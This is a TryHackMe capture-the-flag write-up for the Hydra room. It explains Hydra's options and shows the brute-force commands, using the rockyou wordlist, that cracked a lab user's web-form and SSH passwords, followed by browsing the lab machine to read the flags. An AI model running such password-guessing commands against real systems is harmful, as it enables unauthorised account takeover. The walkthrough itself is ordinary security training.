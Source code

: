 # Hydra TryHackMe Writeup

Hatami Ra'is Bukhari (Althemier)

[Hydra Room](https://tryhackme.com/room/hydra)

# [Task 1] Hydra Introduction

No answer needed

# [Task 2] Using Hydra

> For more detail check `man hydra` 

## Example command


```
hydra -l user -P passlist.txt ftp://10.10.14.211
```

* `-l` use if we have the username, in this case its **user**

* `-P` use list of password from wordlist like `rockyou.txt` or in this case `passlist.txt`

* `ftp://` To where

## SSH

```
hydra -l <username> -P <full path to pass> 10.10.14.211 -t 4 ssh
```

* `-l` use if we have the username

* `-P` use list of password from wordlist like `rockyou.txt` 

* `t` specifies the number of threads

## Post Web Form

```
hydra -l <username> -P <wordlist> 10.10.14.211 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

* `-l` use if we have the username

* `-P` use list of password from wordlist like `rockyou.txt` 

* `hhtp-post-form` telling hydra its form(post) like login page

* `/login url` URL where login page is, ex `ayaya.com/login`

* `:username` form field where the username is entered. 

* `^USER^` Tell Hydra to use the username

* `password` form field where the password is entered

* `^PASS^` Tell Hydra to use the password list from wordlist

* `F=incorrect` If this word appears on the page, its incorrect

* `-V` Verbose output for every attempt. Dont use this if you just want the result


## 1. Use Hydra to bruteforce molly's web password. What is flag 1?

> **HINT**

> If you've tried more than 30 passwords from RockYou.txt, you are doing something wrong!

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.211 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```

While waiting the scan to finished, Im continue to finish assignment 2

## 2. Use Hydra to bruteforce molly's SSH password. What is flag 2?

```
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.14.211 -t 4 ssh
```

Found the password, shh into the machine

```
ssh molly@10.10.14.211
```

Simply use `ls`, there will be `flag2.txt`. `cat flag2.txt` and thats the answer



**BUT**

Since the IP for the website and machine is the same, maybe **just** maybe i can find the password from the machine it self. And I did. How?

* `cd ..` and `ls` will show you theres 2 directory

```
molly  ubuntu
``` 

* `molly` is where we are before, then what is `ubuntu` doing there?

* `cd ubuntu` and `ls` will lead you to
```
elf  nodesource_setup.sh
```

* elf is a directory, so `cd elf` and simple `ls` will show you
```
hydra-challenge  node_modules  package.json  package-lock.json  server.js  views
```

* `cat hydra-challenge` will give you the flag for assignment 1.

> My first hydra is pass 30 password as hint suggested, so i sort of failed.

> If you (not me) read this and know what command i should use please tell me. Thank you.